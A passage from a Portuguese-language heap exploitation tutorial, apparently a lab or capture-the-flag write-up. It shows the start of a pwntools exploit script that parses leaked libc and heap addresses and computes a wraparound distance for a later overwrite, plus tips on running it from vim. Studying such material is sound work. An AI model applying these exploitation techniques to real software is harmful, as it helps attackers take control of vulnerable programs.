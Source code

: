 ```py
# seleciona a funcao "malloc" e envia o tamanho e os dados
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# calcula a distancia da "volta" entre dois enderecos
def delta(x, y):
    return (0xffffffffffffffff - x) + y

# inicia o script
io = start()

# capturando o endereco da puts() que o binario vaza
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# capturando o endereco da heap que o binario vaza
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# tornando o binario interativo
io.interactive()
```

Este script, contém a base para iterarmos sobre o binário, ainda vamos adicionar mais aglumas linhas para sobrescrever o *target*.

Neste experimento, estou utilizando o editor de texto `vim` para escrever o script, pois ele permite que executemos o script com argumentos.

Para executermos o script, podemos inserir o comando `:!./%` no vim em modo de comando.
